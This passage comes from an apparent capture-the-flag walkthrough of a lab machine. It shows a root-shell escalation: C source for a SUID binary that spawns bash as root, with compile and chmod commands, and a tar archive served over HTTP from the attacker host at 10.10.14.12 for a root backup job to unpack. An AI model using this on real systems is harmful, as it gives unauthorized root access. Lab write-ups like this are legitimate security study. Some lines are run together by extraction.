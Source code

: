 ```text
#include <unistd.h>int main()
{
    setuid(0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

Compile the program.

```text
gcc -m32 -o setuid setuid.c
```

* **-m32:** 32 bit architecture since the target machine is running a 32 bit os
* **-o:** output file

Then set the SUID bit on the compiled program.

```text
root@kali:~/Desktop/var/www/html# chmod u+s setuidroot@kali:~/Desktop/bla1/var/www/html# ls -la
total 24
drwxr-xr-x 2 root root  4096 Jan 18 11:24 .
drwxr-xr-x 3 root root  4096 Jan 18 10:09 ..
-rwsr-xr-x 1 root root 15532 Jan 18 11:24 setuid
```

Since we’re running as root in kali \(our attack machine\), the owner of the file is root and therefore the SUID bit allows a non-privileged user to execute the file with root privileges.

Now compress the entire _var_ directory and save it in the file _exploit_.

```text
tar -zcvf exploit var
```

Set up a python server on your attack machine.

```text
python -m SimpleHTTPServer 5555
```

On your target machine, download the compressed exploit file in the directory _/var/tmp_.

```text
http://10.10.14.12:5555/exploit
```

Now wait for the _backuperer_ scheduled service to run and create the backup file. We know this happens every 5 minutes. To view how much time is left before the scheduled service is going to run again, use the following command.

```text
systemctl list-timers
```

When the service is run, view the content of the directory.

```text
onuma@TartarSauce:/var/tmp$ ls -la
total 11280
drwxrwxrwt  8 root  root      4096 Jan 18 21:01 .
drwxr-xr-x 14 root  root      4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 11511681 Jan 18 21:01 .e84f032e69e2e221528b5c1c2ea7fa946a905584
-rw-r--r--  1 onuma onuma     2765 Jan 18 11:46 exploit
drwx------  3 root  root      4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root      4096 Jan 18 20:41 systemd-private-6490911d22fe49afb4fe34c1971285c9-systemd-timesyncd.service-5H4XIC
....
```
